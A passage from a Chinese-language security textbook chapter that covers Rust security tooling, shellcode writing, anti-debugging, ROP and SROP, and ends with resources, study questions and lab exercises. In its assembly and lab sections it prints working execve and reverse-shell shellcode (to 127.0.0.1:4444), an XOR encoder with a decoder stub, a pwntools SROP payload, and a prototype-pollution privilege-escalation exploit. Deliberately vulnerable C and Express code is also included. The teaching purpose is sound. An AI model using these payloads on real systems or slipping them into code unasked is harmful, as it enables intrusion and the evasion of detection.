cargo install cargo-fuzz
cargo fuzz init
cargo fuzz add my_target
cargo fuzz run my_target

# Miri: 检测未定义行为（运行在编译器中间表示 MIR 上）
rustup +nightly component add miri
cargo +nightly miri test
cargo +nightly miri run

# cargo-geiger: 统计 unsafe 代码使用情况
cargo install cargo-geiger
cargo geiger
# 输出：每个依赖中使用和未使用 unsafe 表达式的数量

# cargo-deny: 依赖策略检查（许可证、来源、重复等）
cargo install cargo-deny
cargo deny check
```

### 3.3 Rust 密码学与安全网络编程

#### 3.3.1 常用安全库

```rust
// 使用 ring 进行加密操作
// Cargo.toml: ring = "0.17"
use ring::aead;
use ring::rand::{SecureRandom, SystemRandom};

fn encrypt_example() -> Result<(), Box<dyn std::error::Error>> {
    let rng = SystemRandom::new();
    let mut key_bytes = vec![0u8; 32];  // AES-256
    rng.fill(&mut key_bytes)?;

    let key = aead::UnboundKey::new(&aead::AES_256_GCM, &key_bytes)?;
    let key = aead::LessSafeKey::new(key);

    let mut nonce_bytes = vec![0u8; 12];  // 96-bit nonce
    rng.fill(&mut nonce_bytes)?;
    let nonce = aead::Nonce::try_assume_unique_for_key(&nonce_bytes)?;

    let mut plaintext = b"secret message".to_vec();
    key.seal_in_place_append_tag(nonce, aead::Aad::empty(), &mut plaintext)?;

    // plaintext 现在包含密文 + 认证标签
    Ok(())
}
```

#### 3.3.2 安全 HTTP 服务

```rust
// 使用 axum 构建安全的 HTTP 服务
// Cargo.toml: axum = "0.7", tokio = { version = "1", features = ["full"] }
use axum::{
    extract::Json,
    http::StatusCode,
    routing::{get, post},
    Router,
};
use serde::{Deserialize, Serialize};

#[derive(Deserialize)]
struct LoginRequest {
    username: String,
    password: String,
}

#[derive(Serialize)]
struct LoginResponse {
    token: String,
}

async fn login(Json(req): Json<LoginRequest>) -> Result<Json<LoginResponse>, StatusCode> {
    // 实际应用中应使用安全的密码哈希（argon2/bcrypt）
    if req.username.is_empty() || req.password.len() < 8 {
        return Err(StatusCode::BAD_REQUEST);
    }
    // ... 验证逻辑
    Ok(Json(LoginResponse { token: "jwt_token".to_string() }))
}

#[tokio::main]
async fn main() {
    let app = Router::new()
        .route("/api/login", post(login))
        .route("/health", get(|| async { "OK" }));

    let listener = tokio::net::TcpListener::bind("0.0.0.0:8080").await.unwrap();
    axum::serve(listener, app).await.unwrap();
}
```

---

## 四、汇编语言安全深度拓展

### 4.1 Shellcode 编写完全指南

#### 4.1.1 Shellcode 的设计约束

Shellcode 必须满足以下严格约束才能在实际漏洞利用中工作：

| 约束 | 原因 | 解决方案 |
|------|------|----------|
| 不能包含空字节 `\x00` | 很多字符串函数以 `\x00` 作为终止符 | 使用 xor、add/sub、移位等技巧替代 mov |
| 不能包含换行符 `\x0a` | gets() 等函数以换行作为输入终止 | 使用等价指令序列 |
| 位置无关（PIC） | 无法预知代码加载地址 | 使用相对寻址、call/pop 技巧 |
| 尽可能短小 | 缓冲区大小有限 | 精简指令、复用代码 |
| 避免坏字符 | 目标程序可能过滤特定字节 | 根据具体过滤规则调整编码 |

#### 4.1.2 Linux x86_64 Shellcode 实战

**execve("/bin/sh") Shellcode（无空字节）：**

```nasm
; Linux x86_64 execve("/bin/sh", NULL, NULL)
; 无空字节，位置无关
; 总长度：30 字节

section .text
global _start

_start:
    ; 清零寄存器（xor 不产生空字节）
    xor    rsi, rsi          ; argv = NULL
    xor    rdx, rdx          ; envp = NULL

    ; 构造 "/bin/sh" 字符串
    ; 0x68732f6e69622f = "/bin/sh\0" 的小端序
    ; 注意：末尾的 \0 会在压栈时自然产生
    mov    rax, 0x68732f6e69622f
    push   rax
    mov    rdi, rsp          ; rdi = "/bin/sh" 的地址

    ; execve 系统调用
    xor    rax, rax
    mov    al, 59            ; syscall number for execve = 59 (0x3b)
    syscall
```

**反向连接 Shellcode（带编码器）：**

```nasm
; Linux x86_64 反向连接 shell
; 连接到 127.0.0.1:4444 并重定向 stdin/stdout/stderr

section .text
global _start

_start:
    ; socket(AF_INET, SOCK_STREAM, 0)
    xor    rax, rax
    mov    al, 41            ; sys_socket
    xor    rdi, rdi
    mov    dil, 2            ; AF_INET
    xor    rsi, rsi
    mov    sil, 1            ; SOCK_STREAM
    xor    rdx, rdx          ; protocol = 0
    syscall
    mov    r9, rax           ; 保存 socket fd

    ; connect(fd, {AF_INET, 4444, 127.0.0.1}, 16)
    xor    rax, rax
    mov    al, 42            ; sys_connect
    mov    rdi, r9           ; socket fd
    ; 构造 sockaddr_in 结构体
    push   0x0100007f        ; 127.0.0.1 (小端序)
    push   word 0x5c11       ; port 4444 (小端序)
    push   word 2            ; AF_INET
    mov    rsi, rsp
    mov    dl, 16            ; sizeof(sockaddr_in)
    syscall

    ; dup2 循环重定向 stdin(0), stdout(1), stderr(2)
    xor    rsi, rsi
dup_loop:
    xor    rax, rax
    mov    al, 33            ; sys_dup2
    mov    rdi, r9           ; socket fd
    syscall
    inc    rsi
    cmp    rsi, 3
    jl     dup_loop

    ; execve("/bin/sh", NULL, NULL)
    xor    rax, rax
    mov    al, 59
    xor    rsi, rsi
    xor    rdx, rdx
    mov    rdi, 0x68732f6e69622f
    push   rdi
    mov    rdi, rsp
    syscall
```

#### 4.1.3 Shellcode 编码与坏字符处理

```python
# Python Shellcode 编码器示例
# 将 Shellcode 中的坏字符替换为等价编码

def xor_encode(shellcode: bytes, key: int = 0x41) -> bytes:
    """XOR 编码 Shellcode"""
    encoded = bytes([b ^ key for b in shellcode])
    # 检查是否仍然包含坏字符
    bad_chars = [0x00, 0x0a, 0x0d]
    for bc in bad_chars:
        if bc in encoded:
            raise ValueError(f"编码后仍包含坏字符: 0x{bc:02x}")
    return encoded

def generate_decoder_stub(encoded_length: int) -> bytes:
    """生成 XOR 解码存根（x86_64）"""
    # 解码存根在 Shellcode 前面执行，运行时解码后续 payload
    stub = b""
    stub += b"\x48\x31\xc9"                    # xor rcx, rcx
    stub += b"\xb1" + bytes([encoded_length])   # mov cl, <length>
    stub += b"\x48\x31\xf6"                    # xor rsi, rsi
    stub += b"\x48\x8d\x35\x0a\x00\x00\x00"   # lea rsi, [rip+10] (指向编码数据)
    stub += b"\x80\x36\x41"                    # decode_loop: xor byte [rsi], 0x41
    stub += b"\x48\xff\xc6"                    # inc rsi
    stub += b"\x48\xff\xc9"                    # dec rcx
    stub += b"\x75\xf5"                        # jnz decode_loop
    return stub
```

### 4.2 反调试技术

#### 4.2.1 常见反调试方法汇总

| 方法 | 原理 | 绕过方式 |
|------|------|----------|
| `ptrace(PTRACE_TRACEME)` | 一个进程只能被一个调试器跟踪 | 修改返回值、NOP 掉 ptrace 调用 |
| 检测 `/proc/self/status` | `TracerPid` 字段非 0 表示被调试 | Hook 文件读取、修改输出 |
| 时间检查 | 调试器会引入时间延迟 | 修改 `rdtsc` 结果 |
| 信号处理 | 注册自定义信号处理器干扰调试器 | 分析信号处理逻辑 |
| `INT 3` 检测 | 检查代码中的断点指令字节 | 使用硬件断点替代 |
| 父进程检测 | 检查父进程是否为调试器 | 伪造父进程名 |

#### 4.2.2 反调试代码示例

```nasm
; Linux x86_64 多种反调试技术

section .text
global _start

_start:
    ; ====== 方法1：ptrace 检测 ======
    xor    rax, rax
    mov    al, 101           ; sys_ptrace
    xor    rdi, rdi          ; PTRACE_TRACEME = 0
    xor    rsi, rsi
    xor    rdx, rdx
    xor    r10, r10
    syscall
    test   rax, rax
    js     exit_early        ; 返回 -1 表示被调试

    ; ====== 方法2：时间检测 ======
    rdtsc                    ; 读取时间戳计数器
    mov    ecx, eax          ; 保存低 32 位
    ; ... 执行一些代码 ...
    rdtsc
    sub    eax, ecx          ; 计算时间差
    cmp    eax, 0x10000      ; 如果时间差过大，说明被调试
    ja     exit_early

    ; ====== 方法3：检查 TracerPid ======
    ; 打开 /proc/self/status 并解析 TracerPid 字段
    ; （代码较长，此处省略完整实现）

    ; 正常执行流程
    jmp    normal_code

exit_early:
    xor    rax, rax
    mov    al, 60            ; sys_exit
    xor    rdi, rdi
    syscall

normal_code:
    ; ... 正常代码 ...
```

#### 4.2.3 反-反调试（调试器侧的绕过）

```bash
# GDB 脚本：自动绕过 ptrace 检测
# 在 GDB 中执行：source bypass-antidebug.gdb

# 方法1：让 ptrace 总是返回 0
# (gdb) catch syscall ptrace
# (gdb) commands
#   set $rax = 0
#   continue
# end

# 方法2：修改 ptrace 的第一个参数
# (gdb) catch syscall ptrace
# (gdb) commands
#   set $rdi = 0  # PTRACE_TRACEME
#   continue
# end

# 方法3：使用 LD_PRELOAD 注入假的 ptrace 实现
# int ptrace(int request, int pid, void *addr, void *data) {
#     if (request == 0) return 0;  // PTRACE_TRACEME 返回成功
#     return real_ptrace(request, pid, addr, data);
# }
```

### 4.3 ROP（Return-Oriented Programming）完全指南

#### 4.3.1 ROP 攻击原理

ROP 是一种绕过数据执行保护（DEP/NX）的代码复用攻击技术。DEP 将数据内存标记为不可执行，阻止直接执行栈上的 Shellcode。ROP 的核心思想是：利用程序自身或共享库中已有的代码片段（称为 gadgets），通过控制栈上的返回地址来链式执行这些片段。

```text
传统栈溢出：
┌──────────┐
│ 缓冲区    │ ← Shellcode 写在这里
├──────────┤
│ 保存的EBP │
├──────────┤
│ 返回地址   │ → 指向缓冲区中的 Shellcode
└──────────┘

ROP 链：
┌──────────┐
│ 缓冲区    │ ← 溢出覆盖返回地址
├──────────┤
│ gadget1  │ → pop rdi; ret
├──────────┤
│ 数据      │ → "/bin/sh" 的地址
├──────────┤
│ gadget2  │ → pop rax; ret
├──────────┤
│ 59        │ → execve 的系统调用号
├──────────┤
│ gadget3  │ → syscall; ret
└──────────┘
```

#### 4.3.2 Gadget 搜索与利用

```bash
# 使用 ROPgadget 搜索可用 gadgets
ROPgadget --binary ./vulnerable_program

# 搜索特定指令
ROPgadget --binary ./vulnerable_program --only "pop|ret"

# 搜索特定寄存器操作
ROPgadget --binary ./vulnerable_program --only "pop" | grep "rdi"

# 使用 ropper 搜索
ropper --file ./vulnerable_program --search "pop rdi; ret"
```

**常用 Gadget 模式：**

| 目的 | Gadget 模式 | 作用 |
|------|-------------|------|
| 控制第一个参数 | `pop rdi; ret` | 设置 rdi（函数第一个参数） |
| 控制第二个参数 | `pop rsi; ret` | 设置 rsi（函数第二个参数） |
| 控制第三个参数 | `pop rdx; ret` | 设置 rdx（函数第三个参数） |
| 系统调用 | `syscall; ret` | 执行系统调用 |
| 栈对齐 | `ret` | 用于 16 字节栈对齐 |
| 读写内存 | `mov [rdi], rsi; ret` | 向指定地址写入数据 |
| 条件执行 | `cmp; cmovne; ret` | 条件移动 |

#### 4.3.3 高级 ROP 技术

**ret2libc（返回到 libc）：** 直接调用 libc 中的 `system()` 或 `execve()` 函数，不需要自己构造系统调用。

**SROP（Sigreturn-Oriented Programming）：** 利用 `sigreturn` 系统调用一次性设置所有寄存器，大大简化 ROP 链构造。

```python
# 使用 pwntools 构造 SROP payload
from pwn import *

context.arch = 'amd64'

# 构造 sigreturn frame
frame = SigreturnFrame()
frame.rax = 59          # execve
frame.rdi = binsh_addr  # "/bin/sh"
frame.rsi = 0           # NULL
frame.rdx = 0           # NULL
frame.rip = syscall_gadget

payload = b"A" * offset
payload += p64(sigreturn_gadget)  # 设置 rax = 15 (sigreturn)
payload += p64(syscall_gadget)    # 执行 sigreturn
payload += bytes(frame)           # sigreturn frame 设置所有寄存器
```

**JOP（Jump-Oriented Programming）：** 使用 `jmp` 指令而非 `ret`，可以绕过某些针对 ROP 的防御（如影子栈）。

---

## 五、跨语言安全对比与选型

### 5.1 安全设计哲学对比

| 维度 | JavaScript | TypeScript | Go | Rust | Assembly |
|------|-----------|------------|-----|------|----------|
| 内存安全 | GC 自动管理 | GC 自动管理 | GC 自动管理 | 所有权系统（零成本） | 无（手动管理） |
| 类型安全 | 动态弱类型 | 静态类型（编译时擦除） | 静态类型 | 静态强类型 | 无类型系统 |
| 并发安全 | 单线程（事件循环） | 单线程 | CSP模型（channel） | 所有权防止数据竞争 | 手动同步 |
| 边界检查 | 运行时检查 | 运行时检查 | 运行时检查 | 编译时+运行时检查 | 无（手动检查） |
| 空安全 | 无（null/undefined） | strictNullChecks | nil 值 | Option\<T\> | 无 |
| 适用场景 | Web前端/后端 | Web前端/后端 | 云原生/安全工具 | 系统编程/安全关键 | 漏洞利用/逆向 |

### 5.2 安全工具开发语言选择



### 5.3 各语言典型安全工具生态

| 语言 | 代表性安全工具 | 特点 |
|------|---------------|------|
| Go | Trivy, Falco, OPA, Cilium, nuclei | 编译为单一二进制，部署简单；并发模型适合网络扫描 |
| Rust | ripgrep, fd, bat, RustScan | 极致性能；零成本抽象；编译时安全保证 |
| TypeScript | Snyk CLI, Socket, npx 审计 | 与 npm 生态深度集成；适合前端安全工具 |
| Python | pwntools, scapy, impacket | 快速原型；丰富的安全库生态 |

---

## 六、推荐资源

### 6.1 JavaScript/TypeScript 安全资源

**书籍：**
- 《Web Application Security》Andrew Hoffman —— 全面覆盖 Web 安全基础到高级主题
- 《JavaScript for Pentesters》Pentester Academy —— 渗透测试中的 JavaScript 实战
- 《Tangled Web》Michal Zalewski —— 深入理解浏览器安全模型

**在线课程与平台：**
- PortSwigger Web Security Academy: https://portswigger.net/web-security —— 免费、系统、有实验环境
- Frontend Masters Security Courses —— 前端安全专题
- HackTheBox Web Challenges —— 实战练习

**工具：**
- ESLint Security Plugin —— 静态分析检测安全问题
- npm audit / `pnpm audit` —— 依赖漏洞扫描
- Snyk —— 持续安全监控
- Socket Security —— 供应链攻击检测

**研究资源：**
- USENIX Security、IEEE S&P、CCS 等顶会的 Web 安全论文
- HackerOne 公开报告中的 JavaScript 漏洞案例
- OWASP Top 10（Web 应用安全风险）

### 6.2 Go 语言安全资源

**书籍：**
- 《Black Hat Go》Tom Steele, Chris Patten, Dan Kottmann —— Go 安全工具开发实战
- 《Security with Go》Daniel Guzmán Burgos —— Go 安全编码实践
- 《Concurrency in Go》Katherine Cox-Buday —— 并发安全深入理解

**开源项目与工具：**
- gosec: https://github.com/securego/gosec —— Go 安全漏洞扫描器
- govulncheck: https://pkg.go.dev/golang.org/x/vuln/cmd/govulncheck —— 官方依赖漏洞检查
- staticcheck: https://staticcheck.dev/ —— 高级静态分析
- nuclei: https://github.com/projectdiscovery/nuclei —— 基于模板的漏洞扫描器

### 6.3 Rust 安全资源

**书籍：**
- 《The Rust Programming Language》官方教程 —— https://doc.rust-lang.org/book/
- 《Rust in Action》Tim McNamara —— 系统编程实战
- 《Programming Rust》Jim Blandy, Jason Orendorff —— 深入 Rust 语言设计
- 《Rust for Rustaceans》Jon Gjengset —— 进阶 Rust 编程

**安全工具：**
- cargo-audit: https://rustsec.org/ —— 依赖漏洞检查
- cargo-fuzz: 基于 libFuzzer 的模糊测试
- Miri: https://github.com/rust-lang/miri —— 未定义行为检测
- cargo-geiger: unsafe 代码统计
- cargo-deny: 依赖策略审计

**社区资源：**
- Rust Security Advisory Database: https://rustsec.org/
- This Week in Rust: https://this-week-in-rust.org/
- RustSec GitHub: https://github.com/RustSec/advisory-db

### 6.4 汇编语言安全资源

**书籍：**
- 《Practical Binary Analysis》Dennis Andriesse —— 二进制分析从入门到精通
- 《Hacking: The Art of Exploitation》Jon Erickson —— 漏洞利用经典教材
- 《Shellcoder's Handbook》Chris Anley 等 —— Shellcode 编写权威指南
- 《Practical Reverse Engineering》Bruce Dang 等 —— 逆向工程实战

**在线资源：**
- Shell-Storm: http://shell-storm.org/ —— Shellcode 数据库
- Exploit Database: https://www.exploit-db.com/ —— 漏洞利用代码库
- Shellcode Research: https://www.shell-storm.org/shellcode/ —— Shellcode 研究资料

**工具：**
- Ghidra: https://ghidra-sre.org/ —— NSA 开源逆向工具
- Radare2: https://rada.re/ —— 命令行逆向框架
- Capstone: https://www.capstone-engine.org/ —— 多架构反汇编引擎
- ROPgadget: https://github.com/JonathanSalwan/ROPgadget —— ROP gadget 搜索
- pwntools: https://github.com/Gallopsled/pwntools —— CTF/漏洞利用工具库

---

## 七、思考题与讨论问题

### 思考题

1. **原型链污染深度分析**：解释 JavaScript 原型链污染的完整利用链。为什么 `__proto__`、`constructor` 和 `prototype` 是危险的键名？请画出从 JSON 解析到原型污染的完整数据流图。如果一个 Express.js 应用使用 `express.json()` 中间件解析请求体，攻击者如何利用原型链污染绕过认证检查？

2. **Go 并发安全**：Go 的 goroutine 模型相比传统线程模型在安全方面有何优势和风险？请对比 `sync.Mutex`、`sync.RWMutex`、`sync/atomic` 和 `channel` 四种同步机制的适用场景。为什么 `-race` 标志不能检测所有竞态条件？

3. **Rust 所有权系统**：解释 Rust 所有权系统如何在编译时防止以下内存安全问题：(a) 悬垂指针 (b) 数据竞争 (c) 二次释放 (d) 缓冲区溢出。`unsafe` 块的作用和限制是什么？为什么 Rust 社区鼓励最小化 `unsafe` 的使用范围？

4. **Shellcode 设计约束**：为什么 Shellcode 中不能包含空字节（`\x00`）？除了空字节之外，还有哪些常见的"坏字符"？请分别举例说明使用 XOR 编码和算术替换两种方法消除坏字符的技术。

5. **ROP 攻击原理**：解释 ROP（Return-Oriented Programming）攻击的完整工作原理。为什么 DEP（数据执行保护）需要配合 ASLR（地址空间布局随机化）才能提供有效防护？SROP 相比传统 ROP 有什么优势？

### 讨论问题

1. **语言安全哲学**：JavaScript/TypeScript、Go、Rust 三种语言在安全设计哲学上有何根本性差异？每种语言在"安全性"和"开发效率"之间的权衡点在哪里？你认为哪种权衡最适合安全工具开发？

2. **内存安全的未来**：美国白宫在 2024 年发布了关于内存安全语言的建议。你认为 C/C++ 会完全退出系统编程领域吗？Rust 的学习曲线是否是其广泛采用的障碍？Go 在系统编程领域能否替代 C/C++？

3. **WebAssembly 安全挑战**：WebAssembly 在服务端（WASI）和浏览器中的安全模型有何不同？Wasm 模块之间如何实现安全隔离？Wasm 带来了哪些传统 JavaScript 没有的安全挑战？

4. **汇编语言的必要性**：在高级语言高度发展的今天，为什么安全研究人员仍然需要掌握汇编语言？举出至少三个必须使用汇编语言才能有效分析或利用的安全场景。

5. **供应链安全**：npm、Go Module、crates.io 三大包管理生态在供应链安全方面各有什么机制？哪种做得最好？在你的项目中，你会采取哪些具体措施来防范供应链攻击？

---

## 八、拓展实验与实践

### 8.1 JavaScript 安全实验

**实验1：原型链污染漏洞复现**

目标：创建一个存在原型链污染漏洞的 Express.js 应用，并编写自动化利用脚本。

```javascript
// 步骤1：创建存在漏洞的应用
const express = require('express');
const app = express();
app.use(express.json());

function deepMerge(target, source) {
    for (let key in source) {
        if (typeof source[key] === 'object') {
            target[key] = deepMerge(target[key] || {}, source[key]);
        } else {
            target[key] = source[key];
        }
    }
    return target;
}

const users = {};
app.post('/register', (req, res) => {
    const user = {};
    deepMerge(user, req.body);
    users[user.username] = user;
    res.json({ success: true });
});

app.post('/admin', (req, res) => {
    const user = users[req.body.username];
    if (user && user.isAdmin) {
        res.json({ secret: 'classified data' });
    } else {
        res.status(403).json({ error: 'forbidden' });
    }
});

app.listen(3000);
```

```bash
# 步骤2：编写利用脚本
curl -X POST http://localhost:3000/register \
  -H "Content-Type: application/json" \
  -d '{"username": "attacker", "__proto__": {"isAdmin": true}}'

# 步骤3：验证
curl -X POST http://localhost:3000/admin \
  -H "Content-Type: application/json" \
  -d '{"username": "anyone"}'
# 应该返回 {"secret":"classified data"} — 权限提升成功
```

**实验2：供应链安全审计**

```bash
# 对一个真实项目进行依赖审计
git clone https://github.com/expressjs/express.git /tmp/express-audit
cd /tmp/express-audit
npm audit
npx socket npm ls  # 如果安装了 socket CLI
```

**实验3：V8 漏洞分析（高级）**

```bash
# 编译 V8 debug shell
# 参考：https://v8.dev/docs/build
fetch v8
cd v8
tools/dev/gm.py x64.debug
# 使用 d8 运行 PoC 并分析 crash
```

### 8.2 Go 安全工具实验

**实验1：并发端口扫描器**

```go
// 使用 8.1 中的 PortScanner 实现
// 练习：添加服务指纹识别功能
package main

import (
    "context"
    "fmt"
    "time"
)

func main() {
    scanner := NewPortScanner("scanme.nmap.org", 100, 2*time.Second)
    ctx, cancel := context.WithTimeout(context.Background(), 30*time.Second)
    defer cancel()

    ports := make([]int, 1000)
    for i := range ports {
        ports[i] = i + 1
    }

    results := scanner.Scan(ctx, ports)
    for _, r := range results {
        fmt.Printf("Port %d: OPEN", r.Port)
        if r.Banner != "" {
            fmt.Printf(" (%s)", r.Banner)
        }
        fmt.Println()
    }
}
```

**实验2：安全扫描工具链**

```bash
# 创建一个 Go 项目，故意引入安全问题，然后用工具检测
mkdir /tmp/go-security-lab && cd /tmp/go-security-lab
go mod init lab

# 创建 main.go，包含：硬编码密码、SQL注入、不安全的随机数等
# 然后运行：
go vet ./...
gosec ./...
govulncheck ./...
staticcheck ./...
```

**实验3：HTTP 速率限制器**

```bash
# 实现并测试速率限制器
# 使用 ab 或 wrk 进行压力测试
ab -n 1000 -c 50 http://localhost:8080/api/data
# 验证超出速率限制的请求返回 429
```

### 8.3 Rust 安全实验

**实验1：Miri 检测未定义行为**

```rust
// 创建一个包含 UB 的 Rust 程序
// file: src/main.rs
fn main() {
    let mut x: i32 = 42;
    let r1 = &x as *const i32;
    let r2 = &mut x as *mut i32;

    unsafe {
        // Miri 会检测到同时存在可变和不可变引用的 UB
        println!("{}", *r1);
        *r2 = 10;
    }
}
```

```bash
# 使用 Miri 运行
cargo +nightly miri run
# Miri 会报告：Undefined Behavior: trying to retag
```

**实验2：模糊测试**

```bash
# 安装 cargo-fuzz
cargo install cargo-fuzz

# 创建 fuzz target
cargo fuzz init
cat > fuzz/fuzz_targets/parse_input.rs << 'EOF'
#![no_main]
use libfuzzer_sys::fuzz_target;

fuzz_target!(|data: &[u8]| {
    // 对一个自定义解析函数进行模糊测试
    if let Ok(s) = std::str::from_utf8(data) {
        let _ = my_parser::parse(s);
    }
});
EOF

cargo fuzz run parse_input
```

**实验3：安全漏洞审计**

```bash
# 审计一个流行的 Rust crate
cargo install cargo-audit
git clone https://github.com/rust-lang/log.git /tmp/log-audit
cd /tmp/log-audit
cargo audit
cargo geiger
```

### 8.4 汇编语言实验

**实验1：Shellcode 编写与测试**

```bash
# 编写、编译、测试 Shellcode
nasm -f elf64 shellcode.asm -o shellcode.o
ld shellcode.o -o shellcode

# 提取原始 Shellcode 字节
objdump -d shellcode | grep -Po '\s\K[a-f0-9]{2}(?=\s)' | sed 's/../\\x&/g' | tr -d '\n'

# 创建测试程序
cat > test_shellcode.c << 'EOF'
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>

unsigned char code[] = "\x48\x31\xf6\x48\x31\xd2...";

int main() {
    void *mem = mmap(NULL, sizeof(code), PROT_READ|PROT_WRITE|PROT_EXEC,
                     MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
    memcpy(mem, code, sizeof(code));
    ((void(*)())mem)();
    return 0;
}
EOF
gcc test_shellcode.c -o test_shellcode -z execstack
```

**实验2：GDB 调试栈溢出**

```bash
# 创建存在栈溢出的程序
cat > vuln.c << 'EOF'
#include <stdio.h>
void vulnerable() {
    char buffer[64];
    gets(buffer);  // 危险函数
}
int main() {
    vulnerable();
    return 0;
}
EOF
gcc vuln.c -o vuln -fno-stack-protector -z execstack -no-pie

# 使用 GDB 分析
gdb ./vuln
# (gdb) disas vulnerable
# (gdb) break *vulnerable+0
# (gdb) run
# (gdb) x/20x $rsp
```

**实验3：ROP Gadget 搜索**

```bash
# 安装工具
pip install ROPgadget
pip install ropper

# 搜索 gadgets
ROPgadget --binary ./vuln --only "pop|ret"
ropper --file ./vuln --search "pop rdi; ret"

# 构造 ROP chain 并利用
# 使用 pwntools 编写利用脚本
```

---

> **本章寄语**：编程语言是安全研究的工具，深入理解不同语言的安全特性和限制，才能在攻防中游刃有余。JavaScript 的灵活性带来原型链污染风险但也赋予了 Web 生命力，Go 的简洁性和强大并发模型使其成为安全工具开发的首选，Rust 的所有权系统代表了系统编程安全的未来方向，汇编语言则是理解一切底层安全机制的基石。安全研究者不需要精通每种语言，但必须理解每种语言的安全边界在哪里——知道边界，才能知道如何突破或守护它。
